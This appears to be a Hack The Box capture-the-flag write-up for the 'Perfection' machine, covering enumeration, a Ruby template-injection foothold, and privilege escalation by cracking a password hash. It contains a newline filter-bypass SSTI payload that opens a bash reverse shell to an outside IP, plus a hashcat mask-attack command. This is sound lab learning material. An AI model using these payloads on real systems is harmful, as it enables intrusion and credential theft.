 # Perfection

Perfection is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 are open.
Let's check the port 80 first.

![website](./assets/images/website.png)

This is what you should see after browsing to the ip address. It seems like a basic website. Let's perform some **directory research**.

![gobuster](./assets/images/gobuster.png)

Nothing of interest, but there is this `/weighted-grade` page on the website. Let's check it out.

![weight_grade_page](./assets/images/weight_grade_page.png)

And if we put valid input in the form this is the output.

![valid_input](./assets/images/valid_input.png)

And at the footer of the page we can see that it's powered by `WEBrick 1.7.0` which is a **Ruby** framework.
Now let's intercept the request with **Burpsuite** to see what's going on.

## Foothold

![interception_burpsuite](./assets/images/interception_burpsuite.png)

It's indeed powered by a webrick framework. And the calculations for the weight-grade seems to be done on the **server side**. So we can verify if it's vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). And since it's a ruby server the template will be as follow : `<%= %>`
Let's do a test in burptsuite (don't forget ton URL encode the template).

![simple_template](./assets/images/simple_template.png)

And if we forward the request we obtain this result:

![malicious_input](./assets/images/malicious_input.png)

The server detected and blocked our tentative. Maybe it block some special characters? If it's done with some regex, it's may be escapable with the `\n` character. Let's test it with this payload (don't forget to url encode it): `test\n<%= %>`

![newline_payload](./assets/images/newline_payload.png)

## User Flag

Yep it work! So now we just need to add something to have a reverse shell. Don't forget to setup your netcat listener! Here the complete payload: `test\n<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'").readlines() %>`

Change the ip and the port for yours.

![revshell](./assets/images/revshell.png)

And we have a revshell! Let's stabilize it first.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```

And we have the **user flag**!

![user_flag](./assets/images/user_flag.png)

## Root flag

We can see that susan is in the sudoers file with the `id` command. But we doesn't know the **password** of susan. So it will be our focus here. In the mail for susan we found one that talk about how make a password for your user.

![mail](./assets/images/mail.png)

So we know now that her password begin with `susan_nasus_`. But we don't have the random numbers... Let's go back to her home directory. And in the `Migration` directory we found a **sqlite3 database** file so let's open it.

![hash](./assets/images/hash.png)

And we found some hash! The hash for the password of susan is here to! So now we can use `hashcat` to guess the password. Copy paste the hash in a file and use this command: `hashcat -a 6 -m 1400 hash susan_nasus_?d?d?d?d?d?d?d?d?d`
- `-a 6` specify to hashcat that we want a mask attack.
- `-m 1400` specify that the hash is a SHA2-256
- `hash` the file with the hash of the password inside
- `susan_nasus_?d?d?d?d?d?d?d?d?d` the guess hashcat have to make, susan_nasus_ plus nine unkown numbers.

After a while we have the result : `susan_nasus_413759210`

Now just type `sudo -i` and paste the password

![root_flag](./assets/images/root_flag.png)